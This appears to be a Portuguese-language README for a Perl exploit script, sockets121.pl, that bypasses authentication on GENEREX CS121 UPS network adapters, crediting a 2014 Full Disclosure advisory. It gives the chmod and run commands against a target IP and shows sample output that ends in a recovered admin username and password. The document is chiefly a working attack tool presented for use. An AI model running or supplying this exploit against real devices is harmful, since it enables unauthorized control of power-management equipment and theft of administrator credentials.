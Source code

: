 # Autenticação Bypass do CS121 da GENEREX
 - Este procedimento foi feito com base do CL121BL,B e F da CM comandos na versão HynetOS 5.XX:  
 -  Os créditos são totalmente do JKMAC da seclists.org:  
 https://seclists.org/fulldisclosure/2014/May/75  


 ## UTILIZAÇÃO
 - Dê permissão de executavel no arquivo sockets121.pl:  
 
 ```bash

 chmod +X sockets121.pl
```

 - A sintaxe do script é ./sockets121.pl (IP), ex: ./sockets121.pl 192.168.10.10  
  O processo leva cerca de 10 minutos,caso não apresente o login e senha execute novamente que aparecerá as informações:

 ```bash

./sockets121.pl  192.168.10.10

UPS: <VERSION> CS124-16M32M, ROM-Version: 2.5.X(pduc) - Aug 27, 2010 

Target system parameters (current):
Default Protocol : TCP/IP
Default Driver   : Ethernet
Mac address      : 00-03-05-00-00-00
IP address       : 192.168.10.10
Net Mask         : 255.255.255.0
Default Gateway  : XX.XX.XX.XX
DHCP             : 0.0.0.0
DNS              : 0.0.0.0
Port for tools   : 4000


Procurando login ... 
USER: admin, PASS: hg478wegzsu, ACCOUNT: none

```
